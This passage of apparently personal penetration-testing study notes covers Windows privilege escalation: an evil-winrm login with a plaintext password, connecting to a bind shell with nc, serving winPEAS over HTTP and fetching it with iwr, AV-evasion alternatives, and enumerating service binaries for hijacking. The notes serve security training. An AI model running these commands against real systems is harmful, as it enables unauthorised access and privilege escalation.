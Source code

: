 	7. ```evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"```
		- -i = ip
		- -u = username
		- -p = password
			- escaping bangs '!''s
	- Admins can prevent PSReadline by -HistorySaveStyle option to SaveNothing with the Set-PSReadlineOption Cmdlet

### Automated Enumeration

- winPEAS
	- [Note:] <--------------------------
		- [If there is no color use this:]
			- `REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`
	- If blocked by AV --> use Seatbelt or JAWS
		- google **compiled seatbelt github download**
	- package = peass

	- Example:
		- Copy 64-bit binary of winPEAS to home directory and serve it with Python server
			- ```cp /usr/share/peass/winpeas/winPEASx64.exe .```
			- ```python3 -m http.server 80```
		- Connect to bind shell
			- nc 192.168.50.220 4444
		- powershell
		- Grab the file from host using iwr Cmdlet
			- ```iwr -uri http://192.168.45.204/winPEASx64.exe -Outfile winPEAS.exe```
			- ```.\winPEAS.exe```
		- Check  transcript history if winPEAS missed
			- C:\Users\Public
		- Manually check in case winPEAS misses stuff

# Leveraging Windows Services

- Windows Service
	- managed by
		- Service Control Manager
		- Services snap-in
		- PowerShell
		- sc.exe
	- uses
		- LocalSystem (includes SID of SYSTEM & Administrators in its token)
		- Network Service
		- Local Service user accounts

### Service Binary Hijacking
	- Each service has binary file
	- Using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-admin account. RDP solves this issue
- List all installed Windows Services
	- GUI services.msc
	- Get-Service Cmdlet
	- Get-CimInstance Cmdlet (superseding Get-WmiObject)
- Example:
	- Using Get-CimInstance to query the WMI class **win32_service**
		- ```Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}```
	- Enumerate permission on service binaries
		- icalcs (or) [cmd & pwsh]
		- Get-ACL [pwsh]
		- ```|Mask|Permissions|
			|F|Full access|
